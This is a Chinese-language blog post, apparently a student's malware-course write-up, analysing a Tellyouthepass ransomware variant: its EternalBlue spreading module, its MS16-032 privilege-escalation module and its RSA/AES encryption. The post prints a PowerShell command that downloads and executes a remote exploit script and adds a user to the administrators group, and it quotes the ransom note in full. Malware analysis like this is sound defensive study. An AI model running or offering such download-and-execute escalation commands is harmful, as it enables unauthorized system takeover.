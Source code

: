 ```yaml
---
categories: 二进制
date: 2022-02-07 17:21:10
layout: post
tags: null
title: Ransomware analysis
---
```


对某勒索软件进行分析，题目来源于`恶意软件`课程的大作业。

包含两个文件，名称分别如下

```python
0a0d5d2d3c663c54a92cb11f7102eb39
6b9dbf198890b690358fcfc943167373
```

搜索发现其是Tellyouthepass勒索病毒的变种。

腾讯安全在[此文章](http://www.hackdig.com/07/hack-103589.htm)中说，攻击者利用压缩工具打包exe的方式，将`ms16-032内核提权漏洞利用模块`、`永恒之蓝内网扩散模块`集成到勒索攻击包中，以实现内网蠕虫式病毒传播。

但是之后就没再找到更详细的分析文章了。



解压缩，得到如下三个文件。awindows_privedge.exe会启动剩下的两个文件。
![1-software](/Ransomware_analysis/1-software.png)

## 1、lantools_exp.exe---永恒之蓝

参考文章[1]给出如下分析

```python
该模块为针对smb进行攻击利用的工具集，其中包含了对smb服务的远程探测，smb登录psexec命令执行，端口扫描，http服务搭建等功能，同时该工具包含了永恒之蓝漏洞高危漏洞（MS17-010）的攻击利用，该模块运行后将进行内网蠕虫扩散debug.exe病毒模块。
```



## 2、awindows_privedge.exe---提权

查看其导入表，发现有和privilege和token相关的函数。

查看硬编码的字符串，发现和ms16-032提权漏洞相关的内容。攻击者的目的是以system权限执行其他攻击模块。

![2-ms16-032](/Ransomware_analysis/2-ms16-032.png)



随后尝试在windows7上进行ms16-032提权漏洞复现。

首先查看XX用户的信息

```python
net user XX
```

打开powershell执行如下语句

```python
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators px /add'" 
```

出现如下错误，url解析错误，原来的网址已经无法访问了。

![3-failed](/Ransomware_analysis/3-failed.png)



参考教程：https://evi1cg.me/archives/MS16-032-Windows-Privilege-Escalation.html

此外没找到对漏洞详细的分析文章，都是一条命令直接利用。就先不看这里啦～



## 3、勒索模块---加密

debug.exe解压缩，得到windbug.exe和debug.bat。

![4-debug](/Ransomware_analysis/4-debug.png)

debug.bat的内容为：`start C:\Windows\windebug.exe`，而windebug.exe是主要的勒索模块。

ida打开windbug.exe，查看字符串，推断其是由go语言所编写的。



在sub_500CD0()函数中找到了让受害者支付比特币的字符串

![5-pay](/Ransomware_analysis/5-pay.png)

```python
"<html>\n<head>\n<title>\nRecovery your files.\n</title>\n<style type=\"text/css\">\n\t.main {height:auto; width:100%;word-wrap:break-word}\n</style>\n</head>\n<body>\n<font color=#8B0000>\n<b>I am so sorry ! All your files have been encryptd by RSA-1024 and AES-256 due to a computer security problems.</b></br>\n<b>If you think your data is very important .The only way to decrypt your file is to buy my decrytion tool .</b></br>\n<b>else you can delete your encrypted data or reinstall your system.</b></br>\n</br>\n<h2>Your personid :</h2>\n<div class=\"main\">\n<b>ITSSHOWKEY</b></div></br>\n</br>\n</br>\n<h2>Decrytion do as follows:</h2>\n<b>1. if you not own bitcoin,you can buy it online on some websites. like https://localbitcoins.net/ or https://www.coinbase.com/  .</b></br>\n<b>2. send ITSBTC btc to my wallet address ITSADDR.</b></br>\n<b>3. send your btc transfer screenshots and your persionid to my email ITSEMAIL . i will send you decrytion tool.</b></br>\n</br>\n</br>\n<h2>Tips:</h2>\n<b>1.don't rename your file </b></br>\n<b>2.you can try some software to decrytion . but finally you will kown it's vain . </b></br>\n<b>3.if any way can't to contact to me .you can try send me bitcoin and paste your email in the transfer information. i will contact you and send you decrytion tools.</b></br>\n</br>\n</br>\n<b>Anything you want to help . please send mail to my email ITSEMAIL.</b></br>\n<b>Have a nice day . </b>\n</font>\n<body>\n</html>\n",
```



下文描述一些加密方式。

还是关注勒索模块，检查字符串发现有如下的字符串

```python
rsa.PrecomputedValues
crypto/aes
crypto/rsa
```

并且根据之前的文字提示

```python
All your files have been encryptd by RSA-1024 and AES-256 due to a computer security problems.
```

推测由AES和RSA加密。

在 sub_503530 中，恶意代码在用户机器上为用户生成 RSA-1024 公私钥pk_user/sk_user，保存在两个全局变量 dword_5F7F50、dword_5F7F54 中。

![6-rsa](/Ransomware_analysis/6-rsa.png)



RSA2048公钥如下：

![7-rsa_pub](/Ransomware_analysis/7-rsa_pub.png)

更加详细的加密方式可查阅参考文章[1]。

恶意软件整体的流程可查阅参考文章[2]，包括退出当前程序，扫描目录，设置白名单等。

自己目前水平还是太低，没有找到更加详细的分析文章，同时也不具备独立分析的能力，只能理解到这个程度了。还是需要努力学习哇！！

## 参考文章

【1】[Tellyouthepass勒索病毒利用永恒之蓝漏洞来袭，已有企业受害](http://www.hackdig.com/07/hack-103589.htm)

【2】[[TellYouThePass勒索病毒样本分析](https://bbs.360.cn/thread-15831380-1-1.html)](https://bbs.360.cn/thread-15831380-1-1.html)